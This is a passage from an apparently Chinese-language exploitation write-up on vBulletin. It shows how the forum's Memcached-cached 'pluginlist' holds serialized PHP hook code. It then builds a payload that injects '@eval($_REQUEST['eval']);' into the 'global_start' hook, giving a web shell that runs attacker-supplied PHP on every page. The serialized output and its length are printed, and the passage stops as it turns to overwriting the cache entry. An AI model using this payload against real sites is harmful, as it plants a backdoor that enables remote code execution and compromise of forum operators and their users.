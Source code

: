![enter image description here](http://drops.javaweb.org/uploads/images/0e70b68019de1f63270f233a2d4ad39ac5446a26.jpg)

获取`pluginlist`的数据将返回序列化后的`pluginlist`数组。 相关代码在`./includes/class_hook.php`类函数`build_datastore`中。

```
$plugins = $dbobject->query_read("
    SELECT plugin.*,
        IF(product.productid IS NULL, 0, 1) AS foundproduct,
        IF(plugin.product = 'vbulletin', 1, product.active) AS productactive
    FROM " . TABLE_PREFIX . "plugin AS plugin
    LEFT JOIN " . TABLE_PREFIX . "product AS product ON(product.productid = plugin.product)
    WHERE plugin.active = 1
        AND plugin." . "phpcode <> ''
    ORDER BY plugin.executionorder ASC
");
while ($plugin = $dbobject->fetch_array($plugins))
{
    if ($plugin['foundproduct'] AND !$plugin['productactive'])
    {
        continue;
    }
    else if (!empty($adminlocations["$plugin[hookname]"]))
    {
        $admincode["$plugin[hookname]"] .= "$plugin[phpcode]\r\n";
    }
    else
    {
        $code["$plugin[hookname]"] .= "$plugin[phpcode]\r\n";
    }
}
$dbobject->free_result($plugins);

build_datastore('pluginlist', serialize($code), 1);
build_datastore('pluginlistadmin', serialize($admincode), 1);

```

通过代码可知`$code`数组的格式为`$code=array('hookname'=>'phpcode')`; 我们要修改`Memcached`中的`pluginlist`代码，我们也需要将我们的代码放到`$code`数组内序列化后再写入`Memcached`。

```
$code=array('global_start'=>'@eval($_REQUEST[\'eval\']);');
echo serialize($code)."\n".strlen(serialize($code));

```

输出：

```
a:1:{s:12:"global_start";s:25:"@eval($_REQUEST['eval']);";} //序列化后的数据
59 //字符串长度

```

接下来就是修改`pluginlist`项的数据为我们的`pluginlist`：
